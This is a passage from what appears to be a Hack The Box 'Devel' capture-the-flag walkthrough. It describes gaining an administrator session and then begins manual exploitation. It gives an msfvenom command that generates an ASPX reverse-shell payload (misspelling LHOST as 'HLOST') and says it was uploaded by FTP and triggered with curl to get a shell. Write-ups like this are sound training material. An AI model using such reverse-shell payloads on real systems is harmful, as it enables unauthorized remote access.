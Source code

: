 This was due to the fact that I did not change the lhost and the lport and after changing them , we had a session open as administrator

![Alt text](/assets/img/htb/devel/dev_013.png)

## Manual Kernel Exploitation

first thing to do , I created a reverse shell payload with meterpreter using the following command
`msfvenom -p windows/shell_reverse_tcp HLOST=localhost LPORT=9001 -f aspx > ncat.aspx`

And then I ftp the payload to the server ,set up a listner on port 9001 and with curl, I got a shell back

![Alt text](/assets/img/htb/devel/dev_014.png)